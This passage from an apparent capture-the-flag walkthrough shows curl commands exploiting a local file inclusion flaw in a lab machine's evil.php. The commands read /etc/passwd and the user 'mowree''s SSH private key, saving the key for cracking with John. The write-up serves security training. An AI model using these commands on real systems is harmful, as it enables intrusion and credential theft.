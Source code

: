 ```shell
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

command                 [Status: 200, Size: 1398, Words: 13, Lines: 27, Duration: 89ms]
:: Progress: [951/951] :: Job [1/1] :: 465 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
Looks like 'command=' lets us do LFI, lets checkout the passwd file

```shell
curl http://192.168.141.212/secret/evil.php?command=/etc/passwd
```
now we can see the users

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
```
Lets try to access the ssh directory of user 'mowree'

```shell
curl http://192.168.141.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa
```
and save it in our dir
```shell
 curl http://192.168.141.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa >> id_rsa.key
```
Looks like the key is encrypted, we can use John to crack it
